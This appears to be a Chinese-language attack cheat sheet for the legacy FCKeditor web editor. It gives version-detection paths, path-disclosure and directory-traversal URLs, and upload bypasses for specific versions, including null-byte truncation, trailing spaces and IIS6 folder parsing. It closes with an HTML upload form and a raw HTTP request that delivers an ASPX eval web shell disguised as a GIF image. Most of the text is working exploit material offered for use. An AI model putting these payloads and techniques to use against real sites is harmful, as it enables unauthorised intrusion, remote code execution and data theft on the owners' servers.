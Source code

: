 # FCKeditor 编辑器漏洞利用

>n年前的总结，如果发现fckeditor这种老古董组件可以使用

## 0x01 查看编辑器版本
* `/fckeditor/editor/dialog/fck_about.html`
* `/ckeditor/CHANGES.html`


## 0x02 编辑器参数

- connecter参数是针对/FCKeditor/editor/filemanager/browser/default/connectors/目录下aspx、php、py...各环境脚本连接文件。(此目录下为关键文件)
- type参数上传类型file、image... 
- Command参数执行相应命令GetFoldersAndFiles...


## 0x03 默认上传文件保存路径

/UserFiles/File(Image...)
## 0x04 爆绝对路径漏洞

- `/FCKeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php`  (支持php的通杀)
- `/FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/aspx/connector.aspx`  (2.5可突破)
- `/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=File&CurrentFolder=/shell.asp`


## 0x05遍历目录漏洞

- `/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=../../`
- Version 2.4.1 测试通过 修改CurrentFolder 参数使用 ../../来进入不同的目录：`/browser/default/connectors/aspx/connector.aspx？Command=CreateFolder&Type=Image&CurrentFolder=../../../&NewFolderName=shell.asp`

根据返回的XML 信息可以查看网站所有的目录，上传地址URL。

- `/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/`

- `/FCKeditor/editor/filemanager/browser/default/connectors/jsp/connector?Command=GetFoldersAndFiles&Type=&CurrentFolder=/`


## 0x06 上传URI
### (1)test文件的上传地址 
- `FCKeditor/editor/filemanager/browser/default/connectors/test.html`
- `FCKeditor/editor/filemanager/upload/test.html`
- `FCKeditor/editor/filemanager/connectors/test.html`
- `FCKeditor/editor/filemanager/connectors/uploadtest.html`


### (2)brower文件上传地址

- `/FCKeditor/editor/filemanager/browser/default/browser.html?Type=File&Connector=../../connectors/asp/connector.asp`
- `/FCKeditor/editor/filemanager/browser/default/browser.html?Connector=connectors/asp/connector.asp`


## 0x07.突破方式+各版本漏洞
### (1)建立文件夹方法
     (a)利用IIS6.0解析漏洞建立*.asp文件夹，上传图片马或者上传畸形文件
     (b)fckeditor <= 2.6.4 For php 任意文件上传漏洞（iis判定路径有问题，返回500）
     `/fckeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=FileUpload&Type=File&CurrentFolder=%2Ftest.php%00.gif` 上传gif图片马即可
### (2)后台无验证
     #### (a)fckeditor 2.x < =2.4.2 For php 在处理PHP 上传的地方并未对Media 类型进行上传文件类型的控制，可上传任意文件。

     将以下保存为html文件，修改action地址。
 ```
<form id="frmUpload" enctype="multipart/form-data"action="http://www.site.com/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" method="post">
    Upload a new file:<br>
    <input type="file" name="NewFile"size="50"/><br>
    <input id="btnUpload" type="submit" value="Upload"/>
</form>
```
     #### (b)fckeditor <= 2.2 允许上传asa、cer、php2、php4、inc、pwml、pht
### (3) 空格绕过

     fckeditor<=2.4.1 提交shell.aspx+空格 绕过 【Windows测试成功】(2.4.1 success)
### (4)二次上传
     fckeditor <= 2.6.8 for asp   运用%00截断，首先上传文件名为shell.asp%00txt，结果为shell.asp_txt，再次上传同名文件，结果为shell(1).asp，成功绕过。

### (5)截断上传
fckeditor <= 2.2.  文件名后截断  shell.asp%00.jpg 直接shell.asp上传成功     
HTTP Request Eg. 
```
POST /FCKeditor/editor/filemanager/upload/aspx/upload.aspx?Type=Image HTTP/1.1
Host: www.**.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:36.0) Gecko/20100101 Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://**m/FCKeditor/editor/dialog/fck_image.html?ImageButton
Cookie: ASP.NET_SessionId=kh5lee5aubjpdnpezzhkf4tl; WebPlugValidateCode=7020
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------61051038624293
Content-Length: 264

-----------------------------61051038624293
Content-Disposition: form-data; name="NewFile"; filename="a11.jpg"
Content-Type: image/jpeg

gif89a
<%@ Page Language="Jscript"%><%eval(Request.Item["str"],"unsafe");%>
-----------------------------61051038624293--
```
